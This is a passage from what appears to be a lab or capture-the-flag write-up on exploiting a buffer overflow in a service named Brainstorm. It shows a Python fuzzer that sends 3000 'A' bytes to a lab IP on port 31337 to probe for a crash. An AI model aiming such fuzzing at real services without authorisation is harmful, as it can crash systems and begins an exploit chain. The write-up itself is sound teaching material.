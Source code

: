 The program is probably just repeating our input.

## <strong><font color="#34A5DA">Buffer Overflow</font></strong>

First, we need to check the program for buffer overflow vulnerability. I will be using `fuzzer.py` from *Brainstorm*:

```python
#!/usr/bin/env python3

import socket, sys

ip = "10.211.55.3"
port = 31337
payload_length = 3000
payload = b'A' * payload_length

try:
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print("Connected")
except Exception as e:
  print("Error while connecting")
  print(e)
  sys.exit(1)

try:
  print("Sending payload")
  s.send(payload + b'\r\n')
  s.recv(1024)
except Exception as e:
  print("Error while sending data")
  print(e)
  sys.exit(1)

finally:
  print("Closing socket")
  s.close()
```
